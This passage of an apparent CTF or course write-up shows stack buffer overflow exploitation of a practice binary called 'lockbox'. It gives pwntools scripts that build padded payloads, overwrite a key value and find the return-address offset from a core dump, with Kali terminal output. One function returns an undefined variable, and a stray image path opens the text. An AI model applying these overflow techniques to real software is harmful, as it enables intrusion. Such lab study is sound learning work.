 So, by sending a payload with 16 char of padding and a valid address, we can avoid the segfault. I used the address of `key` because it was something I knew was valid

```python
def keyPld():
	base = b"".join([struct.pack("B", 0x41) for i in range(0,16)])
	key = b"".join([struct.pack("B", 0x50), struct.pack("B", 0x40), struct.pack("B", 0x40), struct.pack("B", 0x00)])
	pad0 = b"".join([struct.pack("B", 0x00) for i in range(0,4)])
	return base + data + pad0
def sendPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./lockbox -q')
	p.sendline("r")
	d = p.recvuntil(">")
	pld = keyPld()
	p.sendline(pld)
	p.interactive()
```
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 keytest.py
[*] Switching to interactive mode
[Inferior 1 (process 226978) exited normally]
```

But now, we have to figure out how to call win.

I'm going to add more data after the address in the payload to see what happens.
```python
def testPld():
	base = b"".join([struct.pack("B", 0x41) for i in range(0,16)])
	data = b"".join([struct.pack("B", 0x50), struct.pack("B", 0x40), struct.pack("B", 0x40), struct.pack("B", 0x00)])
	d2 = b"".join([struct.pack("B", 0x00) for i in range(0,4)])
	d3 = cyclic(500)
	return base + data + d2 + d3

def ripOffset():
	p = process('./lockbox')
	d = p.recvuntil(">")
	p.sendline(testPld())
	p.wait()
	cf = p.corefile
	stack = cf.rsp
	info("rsp = %#x", stack)
	pattern = cf.read(stack, 4)
	ripOffset = cyclic_find(pattern)
	info("rip offset = %d", ripOffset)	

```
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 newdbg.py
[+] Starting local process './lockbox': pid 63811
[*] Process './lockbox' stopped with exit code -11 (SIGSEGV) (pid 63811)
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/4-Week/core.63811'
    Arch:      amd64-64-little
    RIP:       0x4012ad
    RSP:       0x7ffedf978de8
    Exe:       '/home/kali/Desktop/4-Week/lockbox' (0x400000)
    Fault:     0x6161616e6161616d
[*] rsp = 0x7ffedf978de8
[*] rip offset = 48
```